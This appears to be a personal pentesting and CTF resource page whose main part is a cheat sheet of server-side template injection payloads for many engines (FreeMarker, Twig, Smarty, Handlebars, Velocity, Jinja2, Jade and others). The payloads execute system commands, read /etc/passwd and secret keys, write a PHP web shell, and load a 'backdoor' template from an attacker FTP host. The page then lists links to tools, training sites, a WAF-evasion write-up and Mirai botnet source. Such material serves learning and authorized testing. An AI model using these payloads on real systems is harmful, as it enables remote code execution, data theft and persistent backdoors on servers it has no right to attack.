 (insert good title here)
================

- [Cheatsheets](#Cheatsheets)
- [Enumeration](#Enumeration)
- [Privelege Escalation](#Privilege-Escalation)
- [Steganography](#Steganography)
- [Cryptography](#Cryptography)
- [Reverse Engineering](#Reverse-Engineering)
- [Wordlists](#Wordlists)
- [Learn To](#Learn-To)

----------------------------------

## Cheatsheets

### Server Side Template Injection (SSTI)

##### Polyglot:
```
${{<%[%'"}}%\
```

##### FreeMarker (Java):
```
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
```
##### (Java):
```
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
```
##### Twig (PHP):
```
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
```
##### Smarty (PHP):
```
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
````
##### Handlebars (NodeJS):
```
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
```
##### Velocity:
```
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
#end
```
##### ERB (Ruby):
```
<%= system("whoami") %>
<%= Dir.entries('/') %>
<%= File.open('/example/arbitrary-file').read %>
```
##### Django Tricks (Python):
{% debug %}
{{settings.SECRET_KEY}}
```
#Tornado (Python):
{% import foobar %} = Error
{% import os %}{{os.system('whoami')}}
```
##### Mojolicious (Perl):
```
<%= perl code %>
<% perl code %>
```
##### Flask/Jinja2: Identify:
```
{{ '7'*7 }}
{{ [].class.base.subclasses() }} # get all classes
{{''.class.mro()[1].subclasses()}}
{%for c in [1,2,3] %}{{c,c,c}}{% endfor %}
```
##### Flask/Jinja2: 
```
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```
##### Jade:
```
#{root.process.mainModule.require('child_process').spawnSync('cat', ['/etc/passwd']).stdout}
```
##### Razor (.Net):
```
@(1+2)
@{// C# code}
```

If you need to evade WAF check this site out: https://gusralph.info/jinja2-ssti-research/


[Source](https://blog.cobalt.io/a-pentesters-guide-to-server-side-template-injection-ssti-c5e3998eae68)
[More Useful Information](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection)
[Even More](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#twig)

## Enumeration

https://github.com/darkoperator/dnsrecon

## Privilege Escalation

### Windows

##### Living off the Land
https://lolbas-project.github.io/

### Linux

##### Living off the Land

https://gtfobins.github.io/



## Steganography

https://29a.ch/photo-forensics/#forensic-magnifier
https://futureboy.us/stegano/decinput.html
https://github.com/DominicBreuker/stego-toolkit
https://www.irongeek.com/i.php?page=security/unicode-steganography-homoglyph-encoder
https://stegonline.georgeom.net/upload
https://lukeslytalker.pythonanywhere.com/

## Cryptography

https://gchq.github.io/CyberChef/cyberchef.htm
https://www.nayuki.io/page/automatic-caesar-cipher-breaker-javascript
http://fbcs.bplaced.net/multi_encoder_decoder.html
https://quipqiup.com/
https://mothereff.in/bacon
http://www.spammimic.com/
https://crypto.interactive-maths.com/affine-cipher.html

## Reverse Engineering

https://onlinedisassembler.com/static/home/index.html

## Wordlists

https://wiki.skullsecurity.org/Passwords

## Learn To

### Hack
https://app.hackthebox.eu/dashboard
https://academy.hackthebox.eu/dashboard
https://www.hackthissite.org/
https://www.hacksplaining.com/
https://www.hacking-lab.com/index.html
https://cryptopals.com/
https://ocw.cs.pub.ro/courses/cns
https://www.pentesteracademy.com/
https://tryhackme.com/
https://learn.hacktify.in/collections?category=courses&page=1
https://crackmes.one/

### Code
http://www.codecraftgame.org/
https://codingbat.com/
http://www.programmr.com/zone/cpp
http://www.codecademy.com/dashboard

## Misc (yet to sort)


https://www.semanticscholar.org/paper/Text-Steganographic-Approaches%3A-A-Comparison-Agarwal/5e9e19106b8deff39118530811672d7b0fb83670?p2df
https://github.com/jgamblin/Mirai-Source-Code

